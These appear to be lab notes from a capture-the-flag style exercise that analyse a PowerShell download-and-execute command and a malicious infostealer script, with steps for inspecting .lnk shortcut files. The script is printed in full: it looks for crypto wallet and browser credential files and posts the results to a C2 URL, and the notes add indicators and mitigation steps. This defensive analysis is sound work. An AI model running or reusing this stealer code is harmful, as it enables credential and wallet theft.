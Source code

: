 **Command used in PowerShell**

`-ep Bypass` 

**Explanation:** Overrides PowerShell’s excution policy to allow the script to run regardless of the machine’s policy settings

**Purpose**: ****Execution policies are a security measure to restrict script execution. This bypass ensures the script runs without interference

`-nop` 

**Explanation:** Disables PowerShell’s profile loading

**Purpose:** Allows inline execution of PowerShell commands

`(New-Object Net.WebClient).DownloadFile(...)` 

**Explanation:** Uses the `.NET` `WebClient` object to download a file from a specified URL

**Purpose:** Fetches the script `(IS.ps1)` from the remote server hosted on GitHub

``C:\ProgramData\s.ps1`` 

**Explanation:** Specifies the location on the local system where the downloaded file will be saved

**Purpose**: ****Ensures the downloaded script is stored in a predictable location for subsequent execution

`iex (Get-Content ... -Raw)` 

**Explanation:** Reads the content of the downloaded file (`s.ps1`) and passes it to `Invoke-Expression (iex)` to execute it in memory

**Purpose:** Executes the script directly, making it harder for traditional security tools to detect

**Potential Uses**

Legitimate Usage: Automating administrative tasks or downloading scripts for deployment

Malicious Usage: Malware and phishing attacks to execute malicious scripts stealthily

**Mitigation and Analysis**

If this command observed in logs or detected by security tools:

1. **Investigate Source URL**: to understand what the file contains
2. **Check System Logs:** Review logs for similar activity or further signs of compromise
3. **Quarantine the Script:** Inspect the file in an isolated environment
4. **Restrict Execution:** Enforce strict execution in PowerShell. Monitor and block potentially harmful PowerShell commands using endpoint security solutions






Multiple ways to inspect .lnk file to reveal embedded commands and attributes

To view the content of a `.lnk` (shortcut) file, you can use several methods. Here are a few options:

**1. Using a Text Editor**

You can open the `.lnk` file in a text editor (like Notepad) to see some of the raw data. However, the content will be mostly unreadable, as `.lnk` files are binary files. You can still see some text strings, such as the target path.

**2. Using Windows Explorer**

1. **Right-click** on the shortcut file.
2. Select **Properties**.
3. In the **Shortcut** tab, you will see the **Target** field, which shows the path the shortcut points to, along with other information such as Start in and Shortcut key.

**3. Using Command Prompt**

You can use the built-in command line tool `WMI` to extract details from the `.lnk` file:1. Open Command Prompt.2. Run the following command:
`1. bash 
2.    wmic path Win32_ShortcutFile where "Name='your_shortcut.lnk'" get Target`

Replace `your_shortcut.lnk` with the actual name of your shortcut file.

**4. Using a Third-Party Tool**

There are several tools designed to analyze `.lnk` files and display their contents in a user-friendly way:- **LnkParser**: A specialized tool for viewing shortcut files.- **Shortcut Explorer**: Another tool that provides detailed information about shortcuts.

**5. Using PowerShell**

You can also use PowerShell to get detailed information:
`1. $shortcut = (New-Object -ComObject WScript.Shell).CreateShortcut("C:\path\to\your_shortcut.lnk") 
2. $shortcut.TargetPath 
3. $shortcut.Arguments 
4. $shortcut.WorkingDirectory`

These methods should help you view the content and properties of a `.lnk` file.

More readings: https://belkasoft.com/forensic-analysis-of-lnk-files







```jsx
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

**Script breakdown**

1. Search-For-Wallets Function
    1. Paths searched:
        1. Bitcoin (`wallet.dat`)
        2. Ethereum (`keystore`)
        3. Monero (`wallet`)
        4. Dogecoin (`wallet.dat`)
    2. Actions
        1. Use `Test-Path` to check for existence of files
        2. Appends paths of found wallet files to `stolen_info.txt`
2. Search-For-BrowserCredentials Function 
    1. Target credential files from web browsers
        1. Google Chrome (`Login Data` SQLite database)
        2. Firefox (`logins.json`)
    2. Actions
        1. Uses `Test-Path` to check for the existence of files
        2. Appends file paths into stolen_info.txt
3. Send-InfoToC2Server Function
    1. C2 URL: http://papash311.thm/data
    2. Method: HTTP POST request
    3. Data: Contents of `stolen_info.txt`
4. Execution Flow
    1. `Search-ForWallets` to locate cryptocurrency wallet files
    2. `Search-ForBrowserCredentials` to identify browser credential files
    3. `Send-InfoToC2Server` to exfiltrate gathered information

**Observations** 

Malicious intent - explicitly designed to steal cryptocurrency wallet files and browser credentials, then exfiltrate this information to a remote server

Indicators of Compromise (IoCs)

- File path: stolen_info.txt
- C2 URL
- Specific file paths for wallets and credentials

Methods used:

- `Test-Path` for identify files
- `Add-Content` for appending data to a file
- `Invoke-WebRequest` for sending data to C2 server

### Mitigation and Response

1. **Preventive Measures**:
    - Restrict PowerShell execution policies to prevent script execution.
    - Use endpoint protection to detect and block malicious scripts.
2. **Incident Response**:
    - **Containment**:
        - Terminate the process executing this script.
        - Quarantine the affected machine.
    - **Eradication**:
        - Remove the `stolen_info.txt` file if present.
        - Search for and remove other traces of the script.
    - **Recovery**:
        - Change credentials stored in the affected browsers.
        - Move or secure any cryptocurrency wallets.
    - **Analysis**:
        - Check logs for outbound connections to `http://papash3ll.thm/data`.
        - Determine if data was successfully exfiltrated.
3. **Detection**:
    - Monitor for use of PowerShell with suspicious commands (e.g., `Invoke-WebRequest` to unknown domains).
    - Detect unusual file access patterns for sensitive paths (wallets or credential files).
